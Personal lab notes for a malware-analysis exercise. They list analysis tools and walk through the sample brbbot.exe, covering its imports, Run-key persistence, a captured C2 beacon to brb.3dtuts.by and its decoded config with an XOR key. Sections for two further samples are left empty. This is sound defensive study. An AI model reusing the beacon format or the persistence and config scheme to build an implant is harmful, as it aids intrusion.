








## Setup labs
- ISO Windows (https://massgrave.dev/genuine-installation-media)
- ISO Linux (Ubuntu, Kali,..)

## Tools

### Static Analysis Tools
- CFF Explorer (https://ntcore.com/explorer-suite/)
- PE Studio (https://pestudio.org/)
- DIE - Detect It Easy (https://github.com/horsicq/Detect-It-Easy)
- strings

### Behaivioral Analysis Tools
Windows Tools:
- ProcMon (https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- Process Hacker (https://sourceforge.net/projects/processhacker/)
- HttpDebugger (https://www.httpdebugger.com/)
- regshot (https://github.com/Regshot)
- procdot (https://procdot.com/)
- cyberchef (https://cyberchef.org/)

Linux Tools:
- fakedns
- httpd (or other http-server)

Common
- Wireshark (https://www.wireshark.org/download.html)

### Code Analysis Tools
Windows Tools:
- x64dbg (https://github.com/x64dbg/x64dbg)
- API Monitor (http://www.rohitab.com/apimonitor)

Common
- IDA Freeware (https://hex-rays.com/ida-free)
- run_speakeasy (https://github.com/mandiant/speakeasy)
- capa (https://github.com/mandiant/capa)

## Sample 1 Analysis (brbbot.exe)
### Static Analysis

Filetype: PE64

SHA-1: 9C2AF9FA2F445535EFB187A98709EC865947E46C

Strings
- ascii,63,0x0000E770,-,user-agent,-,Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0)
- ascii,45,0x0000E6AE,-,registry,-,Software\Microsoft\Windows\CurrentVersion\Run
- ascii,17,0x0000E672,-,format-string,-,%s?i=%s&c=%s&p=%s

IAT
- 52 (gethostbyvalue),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 116 (WSACleanup),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 115 (WSAStartup),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 12 (inet_ntoa),n/a,n/a,network,implicit,x,x,ws2_32.dll
- 57 (gethostvalue),n/a,n/a,network,implicit,x,x,ws2_32.dll
- InternetReadFile,0x9F,0x11174,network,implicit,-,x,wininet.dll
- CryptEncrypt,0xBA,0x110E0,cryptography,implicit,-,x,advapi32.dll
- CryptDecrypt,0xB4,0x11114,cryptography,implicit,-,x,advapi32.dll

### Behaivioral Analysis
Start list behaivior tools in the section Tools. In the Windows VM:
- ProcMon with filter `ProcessName` is `brbbot.exe`.
- Start ProcessHacker, HttpDebugger
- Snapshot 1st register with regshot.

In the Linux VM:
- Start dnsfake, httpd.
- Start Wireshark with the filter `ip.src=="address vm windows"`.

Let's check result:
- regshot value added: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\brbbot: "C:\Users\REM\AppData\Roaming\brbbot.exe"`
- Save ProcMon and open with ProcDot:

Process brbbot.exe move this self to <AppData\Roaming> path, create key autorun for new path.
- fakedns receives a request for `brb.3dtuts.by`: fakedns[INFO]: Response: brb.3dtuts.by -> 192.168.92.129
- Wireshark rev 2 packet, first is dns request for `brb.3dtuts.by`, second is request http to this url.

Packet sumary:
`117	137.110672320	192.168.92.128	192.168.92.129	HTTP	1938	GET /ads.php?i=192.168.92.128&c=DESKTOP-2C3IQHO&p=<hex_encoded> HTTP/1.1 `

- HttpDebugger:

### Code Analysis
- run_speakeasy.py

`$ run_speakeasy.py -t brbbot.exe -o speakeasy.json 2>speakeasy.txt`

`$ cat speakeasy.txt`

After check log speakeasy, see it broken in CryptDestroyHash, pick this type list API in API Monitor tool and run again.

- API Monitor: 

`brbconfig.tmp` after decoded:

`uri=ads.php;exec=cexe;file=elif;conf=fnoc;exit=tixe;encode=5b;sleep=30000`

- cyberchef: decode data in requests http with key `encode=5b`

## Sample 2 Analysis (getdown.exe)

## Sample 3 Ananlysis (ghyte.exe)